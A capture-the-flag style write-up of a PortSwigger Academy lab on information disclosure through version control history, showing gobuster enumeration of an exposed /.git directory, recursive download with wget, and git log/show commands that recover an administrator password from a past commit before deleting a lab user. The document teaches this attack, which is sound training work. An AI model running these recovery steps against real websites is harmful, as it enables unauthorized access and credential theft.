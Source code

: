 # Information disclosure in version control history | Dec 16, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history), you'll learn: Information disclosure in version control history! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the `administrator` user then log in and delete Carlos's account.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Information-Disclosure/ID-5/images/Pasted%20image%2020221216061726.png)

**Let's enumerate hidden directories via `gobuster`!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Information-Disclosure/ID-5]
└─# gobuster dir -u https://0a47009c044c09ccc04c188e005e0021.web-security-academy.net/ -w /usr/share/wordlists/dirb/common.txt -t 40 
[...]
/.git/HEAD            (Status: 200) [Size: 23]
[...]
```

**In here, we found a `/.git` directory! Which is the a GitHub repository directory!**

**Let's download all the files via `wget`!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Information-Disclosure/ID-5]
└─# wget -r https://0a47009c044c09ccc04c188e005e0021.web-security-academy.net/.git

┌──(root🌸siunam)-[~/…/Information-Disclosure/ID-5]
└─# cd 0a47009c044c09ccc04c188e005e0021.web-security-academy.net/.git;ls -lah               
total 52K
drwxr-xr-x  7 root root 4.0K Dec 16 06:25 .
drwxr-xr-x  3 root root 4.0K Dec 16 06:24 ..
-rw-r--r--  1 root root   34 Dec 16 06:24 COMMIT_EDITMSG
-rw-r--r--  1 root root  152 Dec 16 06:24 config
-rw-r--r--  1 root root   73 Dec 16 06:24 description
-rw-r--r--  1 root root   23 Dec 16 06:24 HEAD
drwxr-xr-x  2 root root 4.0K Dec 16 06:25 hooks
-rw-r--r--  1 root root  225 Dec 16 06:24 index
-rw-r--r--  1 root root 1.2K Dec 16 06:25 index.html
drwxr-xr-x  2 root root 4.0K Dec 16 06:25 info
drwxr-xr-x  3 root root 4.0K Dec 16 06:25 logs
drwxr-xr-x 10 root root 4.0K Dec 16 06:25 objects
drwxr-xr-x  4 root root 4.0K Dec 16 06:25 refs
```

**Now, we can use `git` to view all the commit logs!**
```
┌──(root🌸siunam)-[~/…/Information-Disclosure/ID-5/0a47009c044c09ccc04c188e005e0021.web-security-academy.net/.git]
└─# git log 
commit 06670302fd84e7c4e3133cb66af887286d107065 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 9001d061c821c7ec692f8b0a3d53656815f295d0
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

**`Remove admin password from config`... Sounds interesting, let's print that commit:**
```
┌──(root🌸siunam)-[~/…/Information-Disclosure/ID-5/0a47009c044c09ccc04c188e005e0021.web-security-academy.net/.git]
└─# git show 06670302fd84e7c4e3133cb66af887286d107065
commit 06670302fd84e7c4e3133cb66af887286d107065 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 2972fb2..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=05psjctjzftuafv8menz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

- Found `administrator` password: `05psjctjzftuafv8menz`

**Let's login as `administrator` and delete user `carlos`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Information-Disclosure/ID-5/images/Pasted%20image%2020221216062911.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Information-Disclosure/ID-5/images/Pasted%20image%2020221216062919.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Information-Disclosure/ID-5/images/Pasted%20image%2020221216062936.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Information-Disclosure/ID-5/images/Pasted%20image%2020221216062943.png)

We did it!

# What we've learned:

1. Information disclosure in version control history